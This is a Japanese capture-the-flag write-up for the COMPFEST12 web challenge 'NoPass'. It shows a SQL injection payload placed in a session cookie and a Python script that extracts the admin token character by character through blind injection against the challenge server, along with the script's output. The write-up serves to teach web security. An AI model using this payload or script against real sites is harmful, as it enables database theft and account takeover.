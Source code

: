 # NoPass:Web:961pts
Forgets your password! We've already invent secure login system. One account only can log on in one device. The flag is the token of admin.  
P.S: Choose unique username to avoid duplicate.  
128.199.157.172:28337  
Hint  
I think the token is saved in database  

# Solution
アクセスすると[NoPass.html](NoPass.html)がある。  
LoginページではUsernameのみでログインできるようだ。 
Login  
[site.png](site/site.png)  
ただし重複はブロックされるので、adminでのログインはできないようだ。  
abc0123でログインすると、[Dashboard.html](Dashboard.html)と[Flag.html](Flag.html)が表示されるが、flagは無いようだ。  
cookieに以下のtokenが入っていた。  
```text
jv4hdNnATkfkHba1NIfl7PWq9tF2mQbY
```
tokenにシングルクォートを含めるとサーバーエラーが発生した。  
SQLインジェクションを狙って以下を設定する。   
```text
' OR 't' = 't' --
```
すると[Dashboard_admin.html](Dashboard_admin.html)と[Flag_admin.html](Flag_admin.html)が表示されるが、flagは無いようだ。  
ここでflagがadminのtokenだと気付く(問題文に書いてあった)。  
あとは以下のtoooooken.pyで一文字ずつ探せばよい。  
文字列flag.txtが含まれているか否かで正誤判定を行った。  
likeは大文字小文字の区別がないので、substrを使う。  
```python:toooooken.py
import requests

url = "http://128.199.157.172:28337/flag"

flag = "COMPFEST12{"
i = 12

while True:
	for j in "}-0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ_":
		cookie = {"token": "' OR username = 'admin' AND substr(token,{},1) ='{}' --".format(i,j)}
		response = requests.get(url=url, cookies=cookie)
		if "flag.txt" in response.text:
			break
	i += 1
	flag += j
	print(flag)
	if j == "}":
		break
```
実行すると以下のようにflagが得られた。  
```bash
$ python toooooken.py
COMPFEST12{e
COMPFEST12{eZ
COMPFEST12{eZs
COMPFEST12{eZsQ
COMPFEST12{eZsQL
COMPFEST12{eZsQLi
COMPFEST12{eZsQLi_
COMPFEST12{eZsQLi_4
COMPFEST12{eZsQLi_4s
COMPFEST12{eZsQLi_4s_
COMPFEST12{eZsQLi_4s_u
COMPFEST12{eZsQLi_4s_us
COMPFEST12{eZsQLi_4s_usU
COMPFEST12{eZsQLi_4s_usUa
COMPFEST12{eZsQLi_4s_usUaL
COMPFEST12{eZsQLi_4s_usUaL_
COMPFEST12{eZsQLi_4s_usUaL__
COMPFEST12{eZsQLi_4s_usUaL__2
COMPFEST12{eZsQLi_4s_usUaL__20
COMPFEST12{eZsQLi_4s_usUaL__203
COMPFEST12{eZsQLi_4s_usUaL__2033
COMPFEST12{eZsQLi_4s_usUaL__20334
COMPFEST12{eZsQLi_4s_usUaL__20334e
COMPFEST12{eZsQLi_4s_usUaL__20334ef
COMPFEST12{eZsQLi_4s_usUaL__20334eff
COMPFEST12{eZsQLi_4s_usUaL__20334eff}
```

## COMPFEST12{eZsQLi_4s_usUaL__20334eff}